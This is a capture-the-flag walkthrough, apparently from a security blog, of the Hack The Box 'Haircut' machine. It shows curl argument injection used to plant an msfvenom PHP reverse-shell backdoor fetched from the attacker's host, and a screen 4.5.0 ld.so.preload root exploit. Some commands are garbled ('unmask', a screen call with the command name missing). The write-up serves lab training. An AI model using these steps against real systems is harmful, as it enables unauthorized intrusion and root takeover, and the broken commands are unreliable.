

**Level: **Intermediate

**Task:** find **user.txt** and **root.txt** file on the victim’s machine.

Since these labs are online accessible therefore they have static IP. The IP of Haircut is **10.10.10.24** so let’s initiate with nmap port enumeration.

From the given below image, you can observe we found port 22 and 80 are open in the victim’s network.

Knowing port 80 is open to the victim’s network we preferred to explore his IP in a browser and the following image as shown below.

Then I preferred to use dirbuster tool and chose **directory list 2-3 medium.txt** file for directory brute force attack on **http://10.10.10.24** for PHP file extension.

As a result, it found the **uploads** directory with 403 response and an **exposed.php** file with 200 ok response.

When we explored **http://10.10.10.24/exposed.php** we found a search page for finding the location of any hairdresser’s.

For testing, I search for google.com and received very uncommon result but when I inspect the following code I notice the word “**CURL**” which might be pointing towards running curl service in targets system. As we known curl have upload or download option and hence here we can transfer our backdoor to targets system.

Without wasting time I generated a PHP backdoor with help of msfvenom and **start multi/handler** inside the Metasploit framework.

msfvenom  \-p  php/meterpreter/reverse\_tcp lhost\=10.10.14.3  lport\=4321  \-f  raw

Now we need to transfer our **backdoor** file to the target system therefore first we need to **run python server** on port 80 using the following command.

python  \-m  SimpleHTTPServer  80

First I tried to upload the file directly through browser http://10.10.10.24/exposed.php but got failed at that point I **use burpsuite** for fetching HTTP post request and send it to **the repeater**. Then I run curl command for downloading any file from the given path by **omitting word “curl”** as shown below.

formurl  \=  \-o  uploads/revshell.php http://10.10.14.3/revshell.php

**uploads/revshell.php** denotes the path where our backdoor reverse.php file will be uploaded.

**http://10.10.14.3/revshell.php** denotes the path for downloading the file from here.

After then click on **the Go** tab and found that our file is successfully transferred into the target’s system.

As the revshell.php file is successfully transferred into the target’s system but we need to execute that file for getting the reverse connection, therefore, I simply run following the path in a web browser.

http://10.10.10.24/uploads/revshell.php

After executing uploaded backdoor file come back to the Metasploit framework and wait for the meterpreter session.

msf use  exploit/multi/handler

msf exploit(multi/handler)  set payload php/meterpreter/reverse\_tcp

msf exploit(multi/handler)  set lhost  10.10.14.3

msf exploit(multi/handler)  set lport  4321

msf exploit(multi/handler)  exploit

From given below image you can observe **meterpreter session 1** opened for accessing victim tty shell.

Now let’s finished the task by grabbing user.txt and root.txt file. First I move into the home directory and check available files and directories inside it.

here I got a directory maria and after exploring it we found so many files and directory, at last, I fetch the user.txt file from inside /**maria/Desktop/** and use cat command for reading.

**our 1st challenges finished successfully now move for 2nd challenge.**

For spawning proper tty shell of target’s system we need to import python file, therefore, I run following command inside the meterpreter shell

python  \-c  'import pty;pty.spawn("/bin/bash")'

Then using the following command we got all files and directories having root permission.

find  /  \-perm  \-4000  \-user  root  \-exec  ls  \-ld  {}  \\;  2\>/dev/null

Here I notice **/usr/bin/screen-4.5.0** now let’s check its exploit if available.

In a new terminal, we look for any exploit present in exploitdb for screen 4.5.0 with help of searchsploit.

searchsploit screen  4.5.0

From given below image you can observe the highlighted **exploit 41154.sh** which is a shell script for local privilege escalation.

When I didn’t find any appropriate method to execute this shell script for post exploitation then I go with manual compilation and review its code using cat command.

cat  /usr/share/exploitdb/exploits/linux/local/41154.sh

If you will notice the following code then you will observe this script is written in C language and we have divided it into three part for manual compilation.

*   **Copy Yellow** highlighted the code and past it in a text document and save it as **libhax.c**
*   **Copy** **Orang**e highlighted the code and past it in a text document and save it as **rootshell**.**c**

At last **copy remaining** code and past it in a text document and save it as **41154.sh**

From given below image you can see I have pasted above copied inside **rootshell.c**

From given below image you can see I have pasted above copied inside **libhax.c**

From given below image you can see I have pasted above remaining copied inside **41154.sh** and save all three text document on the desktop in a new **folder shell**.

Let’s compile our C program file manually in our local system using gcc as given below.

gcc  \-fPIC  \-shared  \-ldl  \-o  libhax.so libhax.c

Similarly compile rootshell.c file through the following command.

gcc  \-o  rootshell rootshell.c

From given below image you can see all files we have stored in our folder shell, now let’s upload them into the target’s system through our previous meterpreter session.

Since we /tmp has read and write permission, therefore, we are uploading all files in /tmp directory by executing following command.

cd  /tmp

upload  /root/Desktop/shell  .

Again for spawning proper tty shell of target’s system, we need to import python file, therefore, I run following command inside the meterpreter shell

python  \-c  'import pty;pty.spawn("/bin/bash")'

Open 41154.sh file as it contains a command for getting root privilege as shown below.

Execute the following command and get the root.

cd  /etc

unmask  000

\-D  \-m  \-L  ld.so.preload echo  \-ne   "\\x0a/tmp/libhax.so"

cd root

Here I got root.txt file now using cat command let open this file and finished our 2nd challenge.

**Wonderful!!** We had completed the task and hacked this box.

**Author: **AArti Singh is a Researcher and Technical Writer at Hacking Articles an Information Security Consultant Social Media Lover and Gadgets. Contact**[ here](https://www.linkedin.com/in/aarti-singh-353698114)**s